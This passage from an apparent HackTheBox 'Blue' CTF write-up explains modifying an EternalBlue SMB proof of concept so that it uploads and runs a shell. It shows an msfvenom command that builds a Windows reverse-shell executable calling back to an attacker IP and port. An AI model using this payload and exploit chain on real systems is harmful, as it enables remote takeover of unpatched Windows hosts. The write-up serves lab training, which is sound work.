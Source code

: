 
Reading the comments and the imports of the code, there is an additional dependency to pull in, ```mysmb.py``` which we will need to do. We modify the username to ***guest***, thanks to NMAP enumerating that for us. ***Note:*** Modified POC code for this specific engagement is hosted on my [GitHub](https://github.com/nullprism/htb-boxes/tree/main/blue).

At this point we need to read what the POC actually does. More often than not, POC (Proof of Concepts) aren't set up for you to just deliver shells to a target, it just simply....a proof of concept. You need to modify them for your intended use. *Usually*,  they are well-documented for something like this. In this particular case, this POC is not particularly well documented. So you have typically have one of two options.

**1)** Read through the code manually to fully understand what is going on so you can modify it to suit your needs.

***OR***

**2)** Run the code against a mock test target in a sandbox target and see what happens.

Honestly - you should be doing both with anything you download off the internet. If this were a live engagements (i.e. not a CTF or HackTheBox) you would ABSOLUTELY be doing both. Never, never, never - blindly throw exploits.

Jumping off my brief soap box, doing #1 of what I just preached about, we find this function.

![def smb pwn](/assets/img/htb/blue/blue_smbpwn.png)

In the case of this POC, the exploit creates a plaintext file in C:\ named ```pwned.txt``` and exits. Cool for testing and proof, but not what we want. We want a shell. A reverse shell. In the above screenshot, I commented out the original POC code, and added in delivery of a shell named ```eternal_blue.exe``` and then the service execution of that shell.

### Building the Payload

As always, ```msfvenom``` is our best friend here.

```bash
┌──(kali㉿kali)-[~/htb/blue/exploits]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.94 LPORT=4443 -f exe > eternal_blue.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
